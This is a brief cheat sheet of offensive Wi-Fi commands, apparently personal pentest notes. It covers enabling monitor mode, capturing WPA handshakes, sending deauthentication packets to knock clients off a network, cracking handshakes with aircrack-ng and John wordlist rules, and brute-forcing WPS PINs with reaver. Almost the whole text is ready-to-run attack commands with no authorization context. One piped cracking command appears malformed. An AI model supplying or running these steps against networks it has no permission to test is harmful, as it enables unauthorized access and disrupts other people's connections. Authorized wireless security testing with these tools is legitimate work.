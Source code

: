 # Capturing handshakes  

## Starting monitor mode  
```sudo airmon-ng start wlan0 ```

## Starting monitor mode and setting a channel  
```sudo airmon-ng start wlan0 3  ```

## Recon - see all  
```sudo airodump-ng wlan0mon```

## Recon specific (monitor channel 3)
```
sudo airmon-ng start wlan0 3
sudo airodump-ng -b <bssid> -e <essid> wlan0mon -w <fileprefix>
```
Then deauth from another shell or wifi card:
```sudo aireplay-ng -0 5 -a <BSSID> -c <client MAC> wlan0mon```

# Cracking handshakes

## Aircrack-ng
```aircrack-ng -w <path to wordlist> -e <ESSID> -b <BSSID> <capture filename>```

Aircrack with john rules
```sudo john --wordlist=<path to wordlist> --rules --stdout | aircrack-ng -e <ESSID> -b <BSSID> -w <capture filename>```

# Cracking wps

## Recon
```sudo wash -i wlan0mon ```

## Attacks
```sudo reaver -b <bssid> -i wlan0mon -v```

May need -K  
```sudo reaver -b <bssid> -i wlan0mon -v -K```

